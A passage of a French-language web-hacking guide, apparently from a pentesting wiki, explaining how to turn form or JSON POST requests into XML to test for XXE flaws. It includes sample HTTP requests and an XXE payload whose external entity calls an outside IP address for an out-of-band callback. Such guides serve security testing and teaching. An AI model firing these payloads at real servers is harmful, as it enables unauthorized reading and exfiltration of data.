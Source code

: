 Lisez le post suivant pour **apprendre à exploiter un XXE en téléchargeant un fichier PDF** :

{{#ref}}
file-upload/pdf-upload-xxe-and-cors-bypass.md
{{#endref}}

### Content-Type : De x-www-urlencoded à XML

Si une requête POST accepte les données au format XML, vous pourriez essayer d'exploiter un XXE dans cette requête. Par exemple, si une requête normale contient ce qui suit :
```xml
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Alors vous pourriez être en mesure de soumettre la requête suivante, avec le même résultat :
```xml
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
### Content-Type : De JSON à XEE

Pour modifier la requête, vous pouvez utiliser une extension Burp nommée “**Content Type Converter**“. [Here](https://exploitstube.com/xxe-for-fun-and-profit-converting-json-request-to-xml.html) you can find this example:
```xml
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
"firstName": "Avinash",
"lastName": "",
"country": "United States",
"city": "ddd",
"postalCode": "ddd"
}}}
```

```xml
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]>
<root>
<root>
<firstName>&xxe;</firstName>
<lastName/>
<country>United States</country>
<city>ddd</city>
<postalCode>ddd</postalCode>
</root>
</root>
```
Un autre exemple peut être trouvé [ici](https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2).
